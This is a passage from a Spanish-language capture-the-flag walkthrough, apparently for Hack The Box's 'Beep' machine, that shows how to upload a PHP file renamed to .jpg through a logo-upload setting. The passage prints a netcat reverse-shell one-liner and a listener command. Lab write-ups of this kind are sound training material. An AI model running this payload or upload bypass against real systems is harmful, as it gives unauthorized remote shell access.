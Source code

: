 Y en efecto, una vez dentro, podemos empezar a investigar un poco; en el apartado _Settings/Company Details_, vamos a ver que hay una opción que nos permite cambiar el logo de la compañía, por lo que ya vamos teniendo una idea, de que podemos hacer.

De manera casi similar a la máquina [Vulnversity](https://mateonitro550.github.io/Vulnversity-TryHackMe) de _TryHackMe_, vamos a tener que disfrazar un archivo `.php` como `.jpg`. No obstante, en este caso será un poco más sencillo ya que no haremos uso de `Burp Suite` (aunque podríamos); lo único que vamos a hacer es añadir la extensión `.jpg` a nuestra `reverseShell.php`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/30.png)

Podríamos utilizar la [_reverse shell_](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) que nos provee `pentestmonkey` (para lo cual debemos modificar el campo _ip_, y colocar la nuestra, y si quisiéramos el campo _port_), o bien, crear nuestra propia `reverse shell`.

```php
<?php
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <nuestraIP> <puertoCualquiera> >/tmp/f");
?>
```

Y al igual que en los casos anteriores, previo a darle a `Save`, debemos de estar en escucha a través de `NetCat`, por el puerto que hayamos indicado en nuestra `reverse shell`.

```
sudo nc -nlvp <puertoCualquiera>
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-06-Beep-Hack-The-Box/31.png)
